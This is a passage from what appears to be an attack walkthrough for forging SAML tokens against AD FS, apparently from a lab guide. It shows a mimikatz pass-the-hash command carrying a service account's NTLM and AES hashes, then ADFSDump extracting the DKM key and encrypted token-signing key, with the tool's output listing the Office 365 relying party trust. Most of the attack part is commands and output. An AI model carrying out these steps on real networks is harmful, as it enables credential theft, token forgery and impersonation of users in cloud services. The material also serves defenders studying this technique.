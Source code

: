 ```powershell
      aes256_hmac       (4096) : f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909
      aes128_hmac       (4096) : 569afe31a386f460e69e7915895837f8


# Execute PtH 
.\mimikatz.exe “privilege::debug” “sekurlsa::pth /user:aadcsvc$ /domain:domain.local /ntlm:f0f13a15b218cb98d1ada6484e380fe6 /aes256:f66c03bf486b3b5c7c40d526af00d3b89bf2f120a24059a739005a1c17d1d909 /aes128:569afe31a386f460e69e7915895837f8”
```


### Extract require info

Goal is now to access and export the information required to forge the SAML token.

In this example, we will use the [ADFSDump](https://github.com/fireeye/ADFSDump) utility, which connects locally to the AD FS database to extract the EncryptedPFX element of the Token Signing service settings, and also connects to Active Directory to export the DKM key. You will need to copy the output into text files as follows:  

- DKMKey.txt will contain the DKM key.

- TKSKey.txt will contain the Token Signing key.

```powershell
ADFSDump.exe
```

```powershell
  ___   ____ ___________ ____
  /   | / __ \/ ____/ ___// __ \__ ______ ___ ____
/ /| | / / / / /_   \__ \/ / / / / / / __ `__ \/ __ \
/ ___ |/ /_/ / __/ ___/ / /_/ / /_/ / / / / / / /_/ /
/_/ |_/_____/_/   /____/_____/\__,_/_/ /_/ /_/ .___/
                                            /_/
Created by @doughsec


## Extracting Private Key from Active Directory Store
[-] Domain is domain.local

[-] Private Key: 05-77-08-31-87-5E-A4-24-6E-C7-EE-48-64-6F-47-23-EB-D6-56-71-DD-3C-42-D0-DE-6B-58-13-16-DF-CB-57


## Reading Encrypted Signing Key from Database
[-] Encrypted Token Signing Key Begin
AAAAAQAAAAAEEN71Kh/hvD9Jk
--- output truncated---
DeMPt0Myf9vtUZow==
[-] Encrypted Token Signing Key End

## Reading The Issuer Identifier
[-] Issuer Identifier: http://sts.stealthbitslab.com/adfs/services/trust
[-] Detected AD FS 2019
[-] Uncharted territory! This might not work...
## Reading Relying Party Trust Information from Database
[-]
Microsoft Office 365 Identity Platform Worldwide
==================
  Enabled: True
  Sign-In Protocol: WsFed-SAML (SAML 1.1)
  Sign-In Endpoint: https://login.microsoftonline.com/login.srf
  Signature Algorithm: http://www.w3.org/2001/04/xmldsig-more#rsa-sha256
  SamlResponseSignatureType: 1;
  Identifier: urn:federation:MicrosoftOnline
```